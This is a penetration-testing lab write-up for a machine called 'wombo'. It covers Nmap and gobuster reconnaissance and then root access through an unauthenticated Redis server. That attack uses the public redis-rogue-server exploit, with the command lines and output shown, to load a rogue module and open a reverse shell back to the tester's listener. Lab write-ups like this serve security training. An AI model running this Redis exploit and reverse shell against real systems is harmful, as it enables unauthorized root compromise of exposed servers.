


Writeup by wook413

[TOC]

# Recon

## Nmap

As usual, I began by running three Nmap scans. The first was a comprehensive TCP scan of all 65,535 ports to identify open ports. The second scan focused on service detection and fingerprinting for those identified ports, while the third covered the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-06 02:44 UTC
Nmap scan report for 192.168.107.69
Host is up (0.045s latency).
Not shown: 65529 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8080/tcp  open  http-proxy
27017/tcp open  mongod

Nmap done: 1 IP address (1 host up) scanned in 43.89 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80,6379,8080,27017                        
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-06 02:47 UTC
Nmap scan report for 192.168.107.69
Host is up (0.051s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)
|   256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)
|_  256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)
80/tcp    open  http       nginx 1.10.3
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3
6379/tcp  open  redis      Redis key-value store 5.0.9
8080/tcp  open  http-proxy
|_http-title: Home | NodeBB
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     set-cookie: _csrf=QW2SQlpAniUXEJt0tPLJwivf; Path=/
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 11098
|     ETag: W/"2b5a-1Cgua61cRjfEtaJy+HecOKbrR2w"
|     Vary: Accept-Encoding
|     Date: Fri, 06 Feb 2026 02:48:07 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >
|     <head>
|     <title>Not Found | NodeBB</title>
|     <meta name="viewport" content="width&#x3D;device-width, initial-scale&#x3D;1.0" />
|     <meta name="content-type" content="text/html; charset=UTF-8" />
|     <meta name="apple-mobile-web-app-capable" content="yes" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta property="og:site_n
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     set-cookie: _csrf=5HOh1X5EAS218tdlDucoP14a; Path=/
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 18181
|     ETag: W/"4705-6B1tyZCJ0ZD4+tnf8QPaqyjrPP0"
|     Vary: Accept-Encoding
|     Date: Fri, 06 Feb 2026 02:48:06 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >
|     <head>
|     <title>Home | NodeBB</title>
|     <meta name="viewport" content="width&#x3D;device-width, initial-scale&#x3D;1.0" />
|     <meta name="content-type" content="text/html; charset=UTF-8" />
|     <meta name="apple-mobile-web-app-capable" content="yes" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta property="og:site_name" content
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     Allow: GET,HEAD
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 8
|     ETag: W/"8-ZRAf8oNBS3Bjb/SU2GYZCmbtmXg"
|     Vary: Accept-Encoding
|     Date: Fri, 06 Feb 2026 02:48:07 GMT
|     Connection: close
|     GET,HEAD
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
| http-robots.txt: 3 disallowed entries 
|_/admin/ /reset/ /compose
27017/tcp open  mongodb    MongoDB 4.1.1 - 5.0
| mongodb-databases: 
|   code = 13
|   codeName = Unauthorized
|   ok = 0.0
|_  errmsg = command listDatabases requires authentication
| mongodb-info: 
|   MongoDB Build info
|     versionArray
|       0 = 4
|       3 = 0
|       2 = 18
|       1 = 0
|     javascriptEngine = mozjs
|     ok = 1.0
|     gitVersion = 6883bdfb8b8cff32176b1fd176df04da9165fd67
|     version = 4.0.18
|     openssl
|       running = OpenSSL 1.1.0l  10 Sep 2019
|       compiled = OpenSSL 1.1.0l  10 Sep 2019
|     storageEngines
|       0 = devnull
|       3 = wiredTiger
|       2 = mmapv1
|       1 = ephemeralForTest
|     bits = 64
|     debug = false
|     maxBsonObjectSize = 16777216
|     allocator = tcmalloc
|     sysInfo = deprecated
|     buildEnvironment
|       cc = /opt/mongodbtoolchain/v2/bin/gcc: gcc (GCC) 5.4.0
|       linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -Wl,--warn-execstack -Wl,-z,relro
|       cxx = /opt/mongodbtoolchain/v2/bin/g++: g++ (GCC) 5.4.0
|       ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-typedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-builtin-memcmp
|       distmod = debian92
|       target_os = linux
|       cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -std=c++14
|       target_arch = x86_64
|       distarch = x86_64
|     modules
|   Server status
|     code = 13
|     codeName = Unauthorized
|     ok = 0.0
|_    errmsg = command serverStatus requires authentication
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port8080-TCP:V=7.95%I=7%D=2/6%Time=69855666%P=x86_64-pc-linux-gnu%r(Get
SF:Request,1044,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-DNS-Prefetch-Control:\\x20off\\
SF:r\\nX-Frame-Options:\\x20SAMEORIGIN\\r\\nX-Download-Options:\\x20noopen\\r\\nX
SF:-Content-Type-Options:\\x20nosniff\\r\\nX-XSS-Protection:\\x201;\\x20mode=bl
SF:ock\\r\\nReferrer-Policy:\\x20strict-origin-when-cross-origin\\r\\nX-Powered
SF:-By:\\x20NodeBB\\r\\nset-cookie:\\x20_csrf=5HOh1X5EAS218tdlDucoP14a;\\x20Pat
SF:h=/\\r\\nContent-Type:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\
SF:x2018181\\r\\nETag:\\x20W/\\"4705-6B1tyZCJ0ZD4\\+tnf8QPaqyjrPP0\\"\\r\\nVary:\\x
SF:20Accept-Encoding\\r\\nDate:\\x20Fri,\\x2006\\x20Feb\\x202026\\x2002:48:06\\x20
SF:GMT\\r\\nConnection:\\x20close\\r\\n\\r\\n<!DOCTYPE\\x20html>\\r\\n<html\\x20lang=
SF:\\"en-GB\\"\\x20data-dir=\\"ltr\\"\\x20style=\\"direction:\\x20ltr;\\"\\x20\\x20>\\
SF:r\\n<head>\\r\\n\\t<title>Home\\x20\\|\\x20NodeBB</title>\\r\\n\\t<meta\\x20name=\\
SF:"viewport\\"\\x20content=\\"width&#x3D;device-width,\\x20initial-scale&#x3D
SF:;1\\.0\\"\\x20/>\\n\\t<meta\\x20name=\\"content-type\\"\\x20content=\\"text/html;
SF:\\x20charset=UTF-8\\"\\x20/>\\n\\t<meta\\x20name=\\"apple-mobile-web-app-capab
SF:le\\"\\x20content=\\"yes\\"\\x20/>\\n\\t<meta\\x20name=\\"mobile-web-app-capable
SF:\\"\\x20content=\\"yes\\"\\x20/>\\n\\t<meta\\x20property=\\"og:site_name\\"\\x20co
SF:ntent")%r(HTTPOptions,1BF,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-DNS-Prefetch-Con
SF:trol:\\x20off\\r\\nX-Frame-Options:\\x20SAMEORIGIN\\r\\nX-Download-Options:\\x
SF:20noopen\\r\\nX-Content-Type-Options:\\x20nosniff\\r\\nX-XSS-Protection:\\x20
SF:1;\\x20mode=block\\r\\nReferrer-Policy:\\x20strict-origin-when-cross-origin
SF:\\r\\nX-Powered-By:\\x20NodeBB\\r\\nAllow:\\x20GET,HEAD\\r\\nContent-Type:\\x20t
SF:ext/html;\\x20charset=utf-8\\r\\nContent-Length:\\x208\\r\\nETag:\\x20W/\\"8-ZR
SF:Af8oNBS3Bjb/SU2GYZCmbtmXg\\"\\r\\nVary:\\x20Accept-Encoding\\r\\nDate:\\x20Fri
SF:,\\x2006\\x20Feb\\x202026\\x2002:48:07\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r
SF:\\nGET,HEAD")%r(RTSPRequest,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nCo
SF:nnection:\\x20close\\r\\n\\r\\n")%r(FourOhFourRequest,15B0,"HTTP/1\\.1\\x20404
SF:\\x20Not\\x20Found\\r\\nX-DNS-Prefetch-Control:\\x20off\\r\\nX-Frame-Options:\\
SF:x20SAMEORIGIN\\r\\nX-Download-Options:\\x20noopen\\r\\nX-Content-Type-Option
SF:s:\\x20nosniff\\r\\nX-XSS-Protection:\\x201;\\x20mode=block\\r\\nReferrer-Poli
SF:cy:\\x20strict-origin-when-cross-origin\\r\\nX-Powered-By:\\x20NodeBB\\r\\nse
SF:t-cookie:\\x20_csrf=QW2SQlpAniUXEJt0tPLJwivf;\\x20Path=/\\r\\nContent-Type:
SF:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2011098\\r\\nETag:\\x2
SF:0W/\\"2b5a-1Cgua61cRjfEtaJy\\+HecOKbrR2w\\"\\r\\nVary:\\x20Accept-Encoding\\r\\
SF:nDate:\\x20Fri,\\x2006\\x20Feb\\x202026\\x2002:48:07\\x20GMT\\r\\nConnection:\\x
SF:20close\\r\\n\\r\\n<!DOCTYPE\\x20html>\\r\\n<html\\x20lang=\\"en-GB\\"\\x20data-di
SF:r=\\"ltr\\"\\x20style=\\"direction:\\x20ltr;\\"\\x20\\x20>\\r\\n<head>\\r\\n\\t<titl
SF:e>Not\\x20Found\\x20\\|\\x20NodeBB</title>\\r\\n\\t<meta\\x20name=\\"viewport\\"\\
SF:x20content=\\"width&#x3D;device-width,\\x20initial-scale&#x3D;1\\.0\\"\\x20/
SF:>\\n\\t<meta\\x20name=\\"content-type\\"\\x20content=\\"text/html;\\x20charset=
SF:UTF-8\\"\\x20/>\\n\\t<meta\\x20name=\\"apple-mobile-web-app-capable\\"\\x20cont
SF:ent=\\"yes\\"\\x20/>\\n\\t<meta\\x20name=\\"mobile-web-app-capable\\"\\x20conten
SF:t=\\"yes\\"\\x20/>\\n\\t<meta\\x20property=\\"og:site_n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 20.13 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10              
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-06 03:08 UTC
Nmap scan report for 192.168.107.69
Host is up (0.049s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.86 seconds
```

# Initial Access

## HTTP 80 8080

### HTTP 80

Port 80 only hosted a default `nginx` page. I attempted directory brute-forcing using `gobuster` , but it yielded **no results.**



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt                                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.107.69>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

### HTTP 8080

I found a `NodeBB` service running on port 8080. Running `gobuster` here was more successful, returning several interesting directories.



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP:8080> -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.107.69:8080>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.well-known/change-password (Status: 302) [Size: 39] [--> /me/edit/password]
/ADMIN                (Status: 302) [Size: 36] [--> /login?local=1]
/Admin                (Status: 302) [Size: 36] [--> /login?local=1]
/Login                (Status: 200) [Size: 11618]
/admin                (Status: 302) [Size: 36] [--> /login?local=1]
/api                  (Status: 200) [Size: 3255]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/categories           (Status: 200) [Size: 18970]
/chats                (Status: 302) [Size: 28] [--> /login]
/favicon.ico          (Status: 200) [Size: 1150]
/flags                (Status: 500) [Size: 10870]
/groups               (Status: 302) [Size: 28] [--> /login]
[ERROR] Get "<http://192.168.107.69:8080/compose>": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/login                (Status: 200) [Size: 11618]
/notifications        (Status: 302) [Size: 28] [--> /login]
/ping                 (Status: 200) [Size: 3]
/popular              (Status: 200) [Size: 18355]
/recent               (Status: 200) [Size: 17544]
/register             (Status: 200) [Size: 14357]
/robots.txt           (Status: 200) [Size: 111]
/sitemap.xml          (Status: 200) [Size: 307]
/tags                 (Status: 302) [Size: 28] [--> /login]
/top                  (Status: 200) [Size: 18180]
/uploads              (Status: 302) [Size: 52] [--> /assets/uploads/?v=7sgruj70sic]
/users                (Status: 302) [Size: 28] [--> /login]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

## Redis 6379

Before diving deeper into port 8080, I moved on to port 6379, where `Redis` was active. The server appeared to be misconfigured, allowing authentication without a username or password, which enabled me to run the `info` command.

```bash
┌──(kali㉿kali)-[~/Desktop]   
└─$ redis-cli -h $IP       
192.168.107.69:6379> info  
# Server                    
redis_version:5.0.9             
redis_git_sha1:00000000                                              
redis_git_dirty:0                
redis_build_id:85c881476bf91b2f   
redis_mode:standalone         
os:Linux 4.9.0-19-amd64 x86_64   
arch_bits:64                      
multiplexing_api:epoll           
atomicvar_api:atomic-builtin
gcc_version:6.3.0                 
process_id:561             
run_id:8f474d513d1bc4f73feb1b91c721a90c7a2d7d57
tcp_port:6379                
uptime_in_seconds:47643641   
uptime_in_days:551            
hz:10                      
configured_hz:10              
lru_clock:8740876                                                    
executable:/usr/local/bin/redis-server                               
config_file:/etc/redis/redis.conf
...
...
...
```

I attempted the `redis-rogue-server` exploit, which I discovered through `HackTricks` and downloaded from the following repository: https://github.com/n0b0dyCN/redis-rogue-server

Initially, I opted for an interactive shell. However, for some reason, I was unable to `cd` into the `/root` directory when the `whoami` command revealed that I am indeed `root` .

```bash
┌──(kali㉿kali)-[~/Desktop/redis-rogue-server]
└─$ python3 redis-rogue-server.py --rhost $IP --lhost 192.168.45.229 --lport 80
/home/kali/Desktop/redis-rogue-server/redis-rogue-server.py:11: SyntaxWarning: invalid escape sequence '\\ '
  | ___ \\       | (_)     | ___ \\                       /  ___|
______         _ _      ______                         _____                          
| ___ \\       | (_)     | ___ \\                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \\ `--.  ___ _ ____   _____ _ __ 
|    // _ \\/ _` | / __| |    // _ \\ / _` | | | |/ _ \\  `--. \\/ _ \\ '__\\ \\ / / _ \\ '__|
| |\\ \\  __/ (_| | \\__ \\ | |\\ \\ (_) | (_| | |_| |  __/ /\\__/ /  __/ |   \\ V /  __/ |   
\\_| \\_\\___|\\__,_|_|___/ \\_| \\_\\___/ \\__, |\\__,_|\\___| \\____/ \\___|_|    \\_/ \\___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.120.69:6379
[info] SERVER 192.168.45.229:80
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] whoami
[>>] root
```

I restarted the exploit and chose a reverse shell instead of the interactive one. This worked perfectly and granted me a full **root shell**.

```bash
┌──(kali㉿kali)-[~/Desktop/redis-rogue-server]
└─$ python3 redis-rogue-server.py --rhost $IP --lhost 192.168.45.229 --lport 80
/home/kali/Desktop/redis-rogue-server/redis-rogue-server.py:13: SyntaxWarning: invalid escape sequence '\\ '
  | ___ \\        | (_)     | ___ \\                   /  ___|

______          _ _      ______                     _____                     
| ___ \\        | (_)     | ___ \\                   /  ___|                    
| |_/ /___   __| |_ ___  | |_/ /___   __ _ _   _  ___  \\ `--.  ___ _ ____   _____ _ __ 
|    // _ \\/ _` | / __| |    // _ \\ / _` | | | |/ _ \\  `--. \\/ _ \\ '__\\ \\ / / _ \\ '__|
| |\\ \\  __/ (_| | \\__ \\ | |\\ \\ (_) | (_| | |_| |  __/ /\\__/ /  __/ |   \\ V /  __/ |   
\\_| \\_\\___|\\__,_|_|___/ \\_| \\_\\___/ \\__, |\\__,_|\\___| \\____/ \\___|_|    \\_/ \\___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig (Fixed for Python3)

[info] TARGET 192.168.120.69:6379
[info] SERVER 192.168.45.229:80
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temporary cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.45.229
Reverse server port: 6379
[info] Reverse shell payload sent.
[info] Check at 192.168.45.229:6379
[info] Unload module...
```

# Shell as `root`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 6379
[+] Listening for reverse shells on 0.0.0.0:6379 →  127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.229
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from wombo~192.168.120.69-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/wombo~192.168.120.69-Linux-x86_64/2026_02_07-18_05_34-694.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@wombo:/# whoami
root
root@wombo:/# 
```

Found `proof.txt`

```bash
root@wombo:/root# cat proof.txt
2b7...
```